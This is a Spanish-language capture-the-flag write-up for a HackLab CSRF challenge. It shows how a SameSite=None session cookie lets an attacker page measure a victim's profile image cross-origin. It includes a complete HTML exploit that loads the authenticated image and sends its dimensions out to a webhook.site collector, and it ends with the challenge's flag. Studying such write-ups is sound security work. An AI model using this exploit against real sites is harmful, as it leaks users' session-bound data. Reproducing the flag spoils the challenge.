


# Desafío 40 - Imagen Importante

**Plataforma:** HackLab (SoftwareSeguro)  
**Categoría:** CSRF  

## Enunciado

Pepe guarda un misterio en el sitio "Imagen Importante". El nivel de privilegios de un usuario está determinado por el **tamaño, en píxeles, de su imagen** (por ejemplo, una imagen de 350 × 400 px equivale a un nivel de 140.000).

El objetivo es averiguar qué nivel tiene **Pepe** y luego generar el **hash MD5** de ese número.

Se dispone de una cuenta propia (`hacklab` / `hacklab2025`) y de una funcionalidad de **ingeniería social**: mediante un formulario del propio desafío se logra que Pepe, ya autenticado, abra en una pestaña aparte **otro sitio accesible desde Internet** elegido por el atacante. Esa funcionalidad no debe atacarse; es el vector que fuerza el ingreso de la víctima.

## Análisis

La imagen de perfil se sirve en una ruta fija: `GET /profile-pic`. La URL **no lleva ningún identificador de usuario**; la respuesta depende exclusivamente de la cookie de sesión.

```http
GET /profile-pic HTTP/2
Host: chl-...-imagen-importante.softwareseguro.com.ar
Cookie: session=eyJ1c2VyX2lkIjoxfQ...
```

El token de sesión es un JWT de Flask cuyo payload, decodificado desde base64url, es `{"user_id": 1}` (la cuenta propia `hacklab`).

La respuesta del servidor confirma las condiciones que hacen el desafío explotable:

```http
HTTP/2 200 OK
Content-Type: image/png
Access-Control-Allow-Origin: *
Cache-Control: no-cache
Vary: Cookie
```

- **`Vary: Cookie`** → misma URL, contenido distinto según quién esté autenticado. La imagen de Pepe se obtiene pidiendo `/profile-pic` **con la cookie de Pepe**.
- **`Access-Control-Allow-Origin: *`** → no hay restricción de origen para el recurso.
- No hay `Cross-Origin-Resource-Policy` ni ninguna cabecera que impida embeber la imagen desde otro dominio.

La cookie `session` tiene los atributos `SameSite=None; Secure; HttpOnly`:

- **`SameSite=None`** → la cookie viaja en peticiones **cross-site**, incluida la subrequest que genera un ``. Esta es la falla que habilita el ataque: no existe defensa anti-CSRF (ni token, ni `SameSite` restrictivo) sobre un recurso cuya respuesta depende de la sesión.
- **`Secure`** → el sitio del atacante debe servirse por **HTTPS** para que la cookie se envíe.
- **`HttpOnly`** → la cookie no es legible por JavaScript, pero no hace falta: el navegador la adjunta solo.

### La técnica: fuga de dimensiones cross-origin

No es posible **leer los bytes** de la imagen de Pepe desde otro origen (la Same-Origin Policy lo impide), pero **sí** se pueden leer sus dimensiones: `naturalWidth` y `naturalHeight` de un `` están disponibles aunque el recurso sea cross-origin y se haya cargado sin CORS. Como el "nivel" es exactamente `ancho × alto`, medir las dimensiones equivale a obtener el nivel.

> **Nota:** es importante **no** poner `img.crossOrigin = "anonymous"`. Ese modo pide el recurso en CORS anónimo, **sin** cookies, con lo que `/profile-pic` respondería como usuario no autenticado (o fallaría) y no se leería la imagen de la víctima. Se carga la imagen de forma normal (con credenciales), y como solo se necesitan las dimensiones —no los píxeles— no hace falta CORS.

## Explotación

### 1. Página del atacante

Se aloja una página HTML en un origen público HTTPS (en este caso GitHub Pages). Al cargarse en el navegador de Pepe, embebe `/profile-pic` —que se pide con la cookie de Pepe—, lee las dimensiones al `onload` y las exfiltra a un colector (webhook.site):

```html
<!DOCTYPE html>
<html>
<head><meta charset="utf-8"><title>...</title></head>
<body>
<script>
  const CHL = "https://chl-...-imagen-importante.softwareseguro.com.ar";
  const COLLECTOR = "https://webhook.site/<token>";
  const img = new Image();
  img.onload = () => {
    const w = img.naturalWidth, h = img.naturalHeight, nivel = w * h;
    new Image().src = COLLECTOR + "/leak?w=" + w + "&h=" + h + "&nivel=" + nivel + "&t=" + Date.now();
    document.body.textContent = "nivel=" + nivel + " (" + w + "x" + h + ")";
  };
  img.onerror = () => {
    new Image().src = COLLECTOR + "/leak?error=1&t=" + Date.now();
    document.body.textContent = "error";
  };
  img.src = CHL + "/profile-pic?cb=" + Date.now();
</script>
</body>
</html>
```

El script completo está en [`exploit.html`](./exploit.html). El parámetro `?cb=` es un cache-buster para evitar respuestas cacheadas.

> **Sobre el hosting:** el colector (webhook.site en plan gratuito) filtra las etiquetas `<script>` de las respuestas que sirve, por lo que **no** puede alojar la página que ejecuta el JavaScript; solo se usa como buzón del leak. La página se sirve desde un origen que sí ejecuta scripts y por HTTPS (obligatorio por el atributo `Secure` de la cookie).

### 2. Prueba con la propia sesión

Abriendo la página con la sesión propia (`hacklab`, `user_id: 1`), el colector recibe las dimensiones de la **propia** imagen, lo que valida el circuito de punta a punta:



### 3. Disparo contra Pepe

En el formulario de ingeniería social del desafío se cargan:

- **Dominio del desafío:** `https://chl-...-imagen-importante.softwareseguro.com.ar`
- **Otro sitio:** la URL pública de la página del atacante.

Al ejecutar la acción, el bot que representa a Pepe abre la página ya autenticado y filtra las dimensiones de **su** imagen. El request del colector se identifica como el de la víctima por el `User-Agent` (`HeadlessChrome` sobre Linux, distinto del navegador propio) y por un `nivel` diferente al de la prueba:



```
w      2180
h      2280
nivel  4970400
```

El nivel de Pepe es **`2180 × 2280 = 4970400`**.

### 4. Hash MD5

```bash
printf '%s' '4970400' | md5sum
```

```
3c306e399cc344151642ef530c9de8d8
```

## Flag

```
3c306e399cc344151642ef530c9de8d8
```
